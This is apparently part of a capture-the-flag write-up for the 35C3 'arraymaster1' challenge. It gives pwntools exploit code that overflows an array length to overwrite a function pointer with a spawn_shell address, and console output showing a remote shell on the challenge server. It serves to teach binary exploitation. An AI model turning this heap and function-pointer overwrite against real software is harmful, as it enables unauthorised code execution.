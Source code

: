 ```python

def quit(proc):
    read_menu(proc)
    proc.sendline("quit")
    log.info("Quitting...")

parser = argparse.ArgumentParser()
parser.add_argument("-r", "--remote", help="Execute on remote server", action="store_true")
args = parser.parse_args()

e = ELF(LOCAL_PATH)

p = get_process(args.remote)

spawn_shell_addr = e.symbols["spawn_shell"]
log.info("Address of spawn_shell: {}".format(hex(spawn_shell_addr)))

init(p, "A", 64, (0xFFFFFFFFFFFFFFFF+1)/8)

init(p, "B", 64, 1)

# Entries 0, 1, 2, 3 are malloc metadata
assert(get_entry(p, "A", 4) == 1)
assert(get_entry(p, "A", 5) == 64)
# get_entry(p, "A", 6) -> pointer to actual array
assert(get_entry(p, "A", 7) == e.symbols["int64_get"])
assert(get_entry(p, "A", 8) == e.symbols["int64_set"])

set_entry(p, "A", 8, spawn_shell_addr)
set_entry(p, "B", 0, 0)

p.interactive()
```

The output:
```console
root@kali:/media/sf_CTFs/35c3ctf/arraymaster1# python exploit.py -r
[*] '/media/sf_CTFs/35c3ctf/arraymaster1/arraymaster1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
[+] Opening connection to 35.207.132.47 on port 22228: Done
[*] Address of spawn_shell: 0x4009c3
[*] Initializing array 'A' (Type: int64, Length: 2305843009213693952)
[*] Initializing array 'B' (Type: int64, Length: 1)
[*] Index #4 of array 'A' has value '1' (0x1)
[*] Index #5 of array 'A' has value '64' (0x40)
[*] Index #7 of array 'A' has value '4196725' (0x400975)
[*] Index #8 of array 'A' has value '4196788' (0x4009b4)
[*] Setting index #8 of array 'A' to value '4196803' (0x4009c3)
[*] Setting index #0 of array 'B' to value '0' (0x0)
[*] Switching to interactive mode
$ ls
arraymaster1
bin
boot
dev
etc
flag.txt
home
lib
```